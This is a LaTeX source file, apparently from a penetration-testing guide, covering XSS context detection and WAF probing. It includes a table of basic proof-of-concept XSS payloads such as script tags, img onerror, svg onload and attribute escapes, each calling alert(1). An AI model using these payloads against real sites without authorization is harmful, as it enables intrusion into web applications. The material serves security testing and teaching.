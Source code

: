 \documentclass[12pt]{article}
\begin{document}
\section{Phase 2: Initial Testing \& Context Identification}

\begin{tcolorbox}[title={\textbf{2.1 Context Detection Methodology}}, colback=lightgreen]
\begin{enumerate}[leftmargin=*]
    \item \textbf{Insert unique marker:} Use string like "Eyaduitto"
    \item \textbf{View page source} and analyze how string is handled
    \item \textbf{Test WAF behavior:} 
    \begin{lstlisting}[basicstyle=\ttfamily\small]
    <Eyaduitto> "Eyad'uitto'
    \end{lstlisting}
    \item \textbf{Identify context:}
    \begin{itemize}
        \item HTML element context
        \item HTML attribute context  
        \item JavaScript context
        \item URL context
        \item CSS context
    \end{itemize}
\end{enumerate}
\end{tcolorbox}

\begin{tcolorbox}[title={\textbf{2.2 Basic Payload Testing}}, colback=lightblue]
\begin{tabular}{lll}
\toprule
\textbf{Payload} & \textbf{Context} & \textbf{Purpose} \\
\midrule
\texttt{<script>alert(1)</script>} & HTML & Basic script test \\
\texttt{<img src=x onerror=alert(1)>} & HTML & Event handler test \\
\texttt{<svg onload=alert(1)>} & HTML & SVG vector test \\
\texttt{" onmouseover="alert(1)} & Attribute & Attribute escape \\
\texttt{\$\{alert(1)\}} & JS Template & Template literal \\
\texttt{-alert(1)} & JS String & Operator injection \\
\bottomrule
\end{tabular}
\end{tcolorbox}
\end{document}
